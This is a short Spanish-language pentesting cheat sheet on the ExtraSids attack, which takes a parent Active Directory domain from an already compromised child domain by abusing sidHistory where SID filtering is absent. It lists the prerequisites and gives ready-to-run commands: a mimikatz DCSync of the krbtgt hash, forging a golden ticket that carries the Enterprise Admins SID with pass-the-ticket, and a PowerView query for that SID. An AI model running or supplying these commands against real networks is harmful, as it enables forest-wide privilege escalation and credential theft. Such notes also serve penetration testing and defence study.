 # ExtraSids Attack - Mimikatz

## Explicación rápida

- Este ataque permite comprometer a un dominio padre desde que el dominio hijo ya fue comprometido bajo el mismo **AD FOREST**.
- ![](https://s38063.pcdn.co/wp-content/uploads/2022/06/Active-Directory-forest-.jpg.optimal.jpg)
- Este ataque se basa en la explotación de propiedad sidHistory y la falta de protección de filtrado de SIDs (Sid filtering) entre dominios dentro de un AD FOREST.
- Para hacer este ataque se necesitan las siguientes condiciones:
    - HASH NT del KRBTGT del dominio hijo: Hay que generar un Golden Ticket.
    - SID del dominio fijo.
    - Nombre de un usuero objetivo en el dominio hijo.
    - FQDN del dominio hijo.
    - SID del grupo Enterprise Admins del dominio padre. 
- Debido a la ausencia de SID filtering, cuando este usuario autenticado con un SID modificado accede al dominio padre, est ratado como si fuera un miembro del grupo Admins, así dandole privilegios sobre todo el AD FOREST.

## Creación del golden ticket con mimikatz
- [Golden Ticket Attack más info](./goldenTicketAttack.md)
- `mimikatz # lsadump::dcsync /user:DOMAIN\krbtgt`
- `kerberos::golden /user:hacker /domain:DOMAIN.LOCAL /sid:SID-FOR-THE-CHILD-DOMAIN /krbtgt:9d765b482771505cbe97411065964d5f /sids:ENTERPRISE-ADMIN-SID /ptt`

## Obtener SID de enterprise admin
- `Get-DomainGroup -Domain DOMAIN.LOCAL -Identity "Enterprise Admins" | select distinguishedname,objectsid`